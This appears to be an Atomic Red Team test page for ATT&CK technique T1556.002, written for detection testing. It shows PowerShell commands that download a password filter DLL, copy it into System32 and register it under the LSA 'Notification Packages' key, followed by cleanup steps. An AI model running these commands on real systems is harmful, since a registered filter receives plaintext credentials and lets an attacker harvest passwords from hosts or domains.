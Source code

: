 # T1556.002 - Modify Authentication Process: Password Filter DLL

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)

<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated.

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)

<br/>

## Atomic Test #1 - Install and Register Password Filter DLL

Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder.
This does require a reboot to see the filter loaded into lsass.exe.
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows

**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c

#### Inputs:

| Name     | Description                                | Type   | Default Value                             |
| -------- | ------------------------------------------ | ------ | ----------------------------------------- |
| dll_path | Path to DLL to be installed and registered | path   | PathToAtomicsFolder&#92;T1556.002&#92;bin |
| dll_name | Name of the Password Filter                | string | AtomicRedTeamPWFilter.dll                 |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:

```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```

#### Dependencies: Run with `powershell`!

##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```

<br/>

